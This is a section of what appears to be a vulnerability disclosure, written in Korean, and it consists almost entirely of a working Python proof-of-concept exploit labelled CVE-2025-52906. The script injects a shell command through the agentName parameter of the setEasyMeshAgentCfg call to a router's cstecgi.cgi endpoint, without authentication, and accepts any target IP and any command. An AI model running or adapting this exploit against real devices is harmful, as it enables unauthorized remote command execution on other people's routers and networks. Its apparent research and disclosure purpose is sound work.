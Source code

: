 #### 4.1.1 Python PoC (exploit.py)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import json
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

API_ENDPOINT = "/cgi-bin/cstecgi.cgi"

def exploit_unauthenticated(target_ip, command):
    """
    인증 없이 RCE를 시도하는 메인 공격 함수 (setEasyMeshAgentCfg 대상)
    """
    target_url = f"http://{target_ip}{API_ENDPOINT}"
    
    payload = f"$({command})"
    
    data = {
        "topicurl": "setEasyMeshAgentCfg",  # RCE가 가능한 API
        "agentName": payload,                # 셸 명령어가 삽입되는 취약 파라미터
        "opmode": "0",
        "meshStart": "1"
    }
    
    print(f"[*] 1. 인증 우회 RCE 시도: {target_ip}")
    print(f"[*] 2. 주입할 페이로드 (agentName): {payload}")
    
    try:
        response = requests.post(target_url,
                               json=data,
                               verify=False,
                               timeout=10,
                               headers={"Content-Type": "application/json;charset=UTF-8"})
        
        print(f"[*] 3. 서버 응답 코드: {response.status_code}")
        
        if response.status_code == 200:
            print("[+] RCE 공격 요청 전송 완료.")
            print("[*] 4. 라우터에 접속하여 명령 실행 결과를 확인하십시오.")
        else:
            print(f"[-] 요청 실패. HTTP 상태 코드: {response.status_code}")
    
    except requests.exceptions.RequestException as e:
        print(f"[-] 네트워크 에러 발생: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-52906 PoC - Unauthenticated RCE")
    parser.add_argument("target_ip", help="타겟 라우터의 IP 주소")
    parser.add_argument("command", default="id", help="라우터에서 실행할 셸 명령어 (예: id, hostname)")
    args = parser.parse_args()
    
    exploit_unauthenticated(args.target_ip, args.command)
```
